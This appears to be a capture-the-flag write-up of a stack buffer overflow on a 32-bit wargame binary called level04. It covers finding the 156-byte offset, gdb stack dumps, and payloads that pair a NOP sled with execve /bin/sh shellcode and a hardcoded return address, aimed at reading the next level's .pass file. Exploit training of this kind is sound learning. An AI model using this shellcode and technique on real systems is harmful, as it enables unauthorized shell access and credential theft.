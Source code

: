 # level04

<!-- >>> "/home/users/level05/.pass"[::-1].encode("hex") -->

https://unix.stackexchange.com/questions/421750/where-do-you-find-the-syscall-table-for-linux

https://github.com/torvalds/linux/blob/v4.17/arch/x86/entry/syscalls/syscall_32.tbl#L17

python -c 'print "A"*157' | ltrace -f ./level04 segv

155 does not segv

156 doubles

0x42424242

With gdb
set follow-fork-mode child

Et avec en entrée `python -c "print 'A'*(156) + 'B'*4"`

Après le gets on a la stack
```
x/100xw $esp
0xffffd650:     0xffffd670      0x00000000      0x00000000      0x00000000
0xffffd660:     0x00000b80      0x00000000      0xf7fdc714      0x00000000
0xffffd670:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd680:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd690:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd700:     0x41414141      0x41414141      0x41414141      0x42424242

(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Notre payload ?
```
# 0xffffd670

\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80

python -c "print '\x90'*(156 - 24) + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x70\xd6\xff\xff'"

python -c "print '\x90'*(156 - 24) + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x70\xd6\xff\xff'" | ltrace -f ./level04

(python -c "print '\x90'*(32) + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A'*(156-32-24) + '\x70\xd6\xff\xff'";) | ltrace -f ./level04

```
